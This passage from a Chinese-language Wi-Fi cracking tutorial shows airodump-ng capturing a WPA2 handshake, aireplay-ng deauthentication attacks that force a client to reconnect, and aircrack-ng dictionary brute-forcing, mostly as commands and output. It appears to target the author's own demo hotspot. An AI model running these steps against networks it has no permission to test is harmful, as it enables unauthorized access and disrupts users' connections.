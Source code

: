 这里仅仅是演示，所以列表只保留了一条结果。

### 5. 使用参数过滤扫描列表，确定扫描目标
使用命令：`airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称>`

~~~
netcon@conwlt:~/workspace$ sudo airodump-ng -w android -c 6 --bssid 22:47:DA:62:2A:F0 wlp8s0mon


 CH  5 ][ Elapsed: 12 s ][ 2018-10-07 18:49 ][ WPA handshake: 22:47:DA:62:2A:F0

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 22:47:DA:62:2A:F0  -33 100     1597      387   11   6  54e. WPA2 CCMP   PSK  AndroidAP

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                  

 22:47:DA:62:2A:F0  AC:BC:32:96:31:8D  -32    1e-24e  1691     2657

~~~

刚扫描时看到输出的扫描状态是这样的：`CH  5 ][ Elapsed: 12 s ][ 2018-10-07 18:49`。

只有当扫描状态后面出现 ` ][ WPA handshake: 22:47:DA:62:2A:F0` 后，我们才拿到拿到进行破解的握手包。

扫描过程中如果有用户设备尝试连接 Wi-Fi 时，我们就会拿到握手包。

所以我们可以同时使用 `aireplay-ng` 对目标设备进行攻击，使其掉线重新连接，这样我们就拿到了握手包。

拿到握手包后按 Ctrl-C 结束扫描即可。

### 6. 使用 aireplay-ng 对目标设备发起攻击
使用命令：`aireplay-ng -<攻击模式> <攻击次数> -a 无线 AP 硬件地址> -c <用户设备硬件地址> <处于监听模式的网卡名称>`

~~~
netcon@conwlt:~$ sudo aireplay-ng -0 0 -a 22:47:DA:62:2A:F0 -c AC:BC:32:96:31:8D wlp8s0mon
18:57:31  Waiting for beacon frame (BSSID: 22:47:DA:62:2A:F0) on channel 6
18:57:32  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [41|64 ACKs]
18:57:33  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [19|121 ACKs]
18:57:33  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [11|80 ACKs]
...
~~~

发起攻击后，当 `airodump-ng` 成功拿到了握手包，使用 Ctrl-C 退出攻击。

### 7. 使用 aircrack-ng 暴力破解 Wi-Fi 密码
使用命令：`aircrack-ng -w 密码字典 <包含握手包的 cap 文件>`

~~~
netcon@conwlt:~/workspace$ aircrack-ng -w wpa-dictionary/common.txt android-01.cap 
Opening android-01.cap
Read 675 packets.

   #  BSSID              ESSID                     Encryption

   1  22:47:DA:62:2A:F0  AndroidAP                 WPA (1 handshake)

Choosing first network as target.

Opening android-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc4

      [00:00:00] 12/2492 keys tested (828.33 k/s) 

      Time left: 2 seconds                                       0.48%
~~~